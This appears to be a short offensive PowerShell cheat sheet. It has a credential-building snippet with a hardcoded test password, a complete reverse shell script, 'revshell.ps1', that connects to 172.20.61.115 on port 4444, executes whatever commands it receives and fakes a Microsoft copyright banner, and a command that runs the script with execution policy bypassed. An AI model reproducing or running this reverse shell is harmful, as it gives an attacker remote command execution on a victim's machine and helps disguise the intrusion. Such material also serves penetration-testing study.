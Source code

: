# PowerShell useful commands

## credentials

```
$user = 'TESTLAB\dfm.a'
$pwd = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pwd)
```


## shell

revshell.ps1
```powershell
$c = New-Object System.Net.Sockets.TCPClient("172.20.61.115","4444");
$I = $c.GetStream();[byte[]]$U = 0..(2-shl15)|%{0};
$U = ([text.encoding]::ASCII).GetBytes("Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n");
$I.Write($U,0,$U.Length); $U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>'); $I.Write($U,0,$U.Length);
while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k);
$a = (iex $D 2>&1 | Out-String ); $r  = $a + (pwd).Path + '> '; $m = ([text.encoding]::ASCII).GetBytes($r);
$I.Write($m,0,$m.Length); $I.Flush()}; $c.Close();
```

exec file
```
powershell -nop -exec Bypass -File revshell.ps1
```


# Links

[PowerShell-Reverse-Shells](https://github.com/0x10F8/PowerShell-Reverse-Shells)